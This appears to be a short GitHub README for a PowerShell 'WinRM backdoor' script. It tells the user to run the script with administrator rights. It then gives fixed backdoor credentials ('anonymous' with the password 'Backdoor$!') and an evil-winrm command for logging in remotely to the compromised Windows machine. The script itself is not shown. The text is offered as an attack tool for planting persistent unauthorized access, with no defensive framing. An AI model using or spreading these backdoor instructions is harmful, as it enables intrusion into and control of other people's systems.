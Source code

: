 <h1>WINDOWS WINRM BACKDOOR</h1>

<ul>
  <li>This script runs backdoor with winrm. To use this script you need admin privilages. So run powershell as Administrator. After that you can login to your backdored system with this creds `anonymous:Backdoor$!`</li>
</ul>

<h1>USAGE:</h1>
<br>

powershell

`.\backdoor`

<br>
<h1>LOGIN</h1>
<br>
bash

`evil-winrm -i IP -u anonymous -p 'Backdoor$!'`
